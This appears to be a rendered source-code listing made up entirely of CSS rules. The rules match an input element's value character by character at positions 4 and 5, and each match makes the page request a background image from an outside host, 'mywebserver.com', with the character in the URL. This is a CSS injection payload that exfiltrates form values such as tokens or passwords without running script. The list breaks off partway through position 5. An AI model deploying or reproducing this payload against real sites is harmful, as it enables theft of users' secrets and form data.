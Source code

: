 ```
input[value=W]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=W"); }
input[value=X]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=X"); }
input[value=Y]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=Y"); }
input[value=Z]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=Z"); }
input[value=a]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=a"); }
input[value=b]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=b"); }
input[value=c]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=c"); }
input[value=d]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=d"); }
input[value=e]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=e"); }
input[value=f]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=f"); }
input[value=g]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=g"); }
input[value=h]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=h"); }
input[value=i]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=i"); }
input[value=j]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=j"); }
input[value=k]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=k"); }
input[value=l]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=l"); }
input[value=m]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=m"); }
input[value=n]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=n"); }
input[value=o]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=o"); }
input[value=p]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=p"); }
input[value=q]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=q"); }
input[value=r]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=r"); }
input[value=s]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=s"); }
input[value=t]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=t"); }
input[value=u]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=u"); }
input[value=v]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=v"); }
input[value=w]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=w"); }
input[value=x]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=x"); }
input[value=y]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=y"); }
input[value=z]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=z"); }
input[value=0]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=0"); }
input[value=1]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=1"); }
input[value=2]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=2"); }
input[value=3]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=3"); }
input[value=4]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=4"); }
input[value=5]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=5"); }
input[value=6]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=6"); }
input[value=7]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=7"); }
input[value=8]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=8"); }
input[value=9]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=9"); }

input[value=A]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=A"); }
input[value=B]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=B"); }
input[value=C]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=C"); }
input[value=D]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=D"); }
input[value=E]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=E"); }
input[value=F]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=F"); }
input[value=G]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=G"); }
input[value=H]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=H"); }
input[value=I]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=I"); }
input[value=J]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=J"); }
input[value=K]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=K"); }
input[value=L]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=L"); }
input[value=M]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=M"); }
input[value=N]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=N"); }
input[value=O]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=O"); }
input[value=P]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=P"); }
input[value=Q]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=Q"); }
input[value=R]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=R"); }
input[value=S]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=S"); }
input[value=T]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=T"); }
input[value=U]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=U"); }
input[value=V]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=V"); }
```